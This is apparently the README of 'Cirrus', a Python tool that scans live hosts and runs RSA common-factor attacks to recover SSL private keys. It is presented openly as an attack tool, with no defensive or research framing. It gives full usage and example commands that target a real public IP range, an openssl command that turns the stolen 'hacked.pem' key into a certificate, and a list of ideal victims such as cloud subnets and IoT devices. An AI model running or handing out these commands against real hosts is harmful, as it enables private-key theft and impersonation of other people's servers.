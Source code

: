 # Cirrus

## Introduction
Cirrus is an easy-to-use python script that launches RSA common factor attacks on live hosts. If a pair of hosts are found to contain a common factor in their moduli, two SSL private keys are created in the current directory in PEM format. These keys can be converted to working SSL certificates using OpenSSL:

```
openssl req -key hacked.pem -new -x509 -days 365 -out certificate.crt -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US'
```
Ideal targets for Cirrus include:

* Subnets belonging to cloud hosting providers who clone the same VM over and over again.
* Subnets of virtual servers in general.
* IoT devices.

There is a nonzero probability that at least two targets in a large group of hosts falling into any of the above categories share a common RSA key factor. 

## Usage
Targets are specified to Cirrus by either providing an IP range or by providing a list of hosts to scan. 

```
usage: cirrus.py [-h] [-t THREADS] [-ip [IPRANGE [IPRANGE ...]]] [-l LISTNAME]
                 [-lk LOADLIST] [-sk SAVELIST] [-c] [-to TIMEOUT]

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            number of threads to scan with
  -ip [IPRANGE [IPRANGE ...]]
                        IP range to scan, specify with [from] [to]
  -l LISTNAME           list of hosts to scan
  -lk LOADLIST          load list of saved keys from file
  -sk SAVELIST          save list of saved keys to file
  -c                    crack loaded RSA keys
  -to TIMEOUT           timeout in seconds before terminating connections
```
```
python cirrus.py -c -to 2 -ip 204.79.197.200 204.79.198.250 -to 2 -t 10
```
```
python cirrus.py -l targets.txt -c
```
If you are interested in launching common factor attacks against absurdly large swaths of the Internet, check out the [EFF SSL Observatory](https://www.eff.org/observatory).
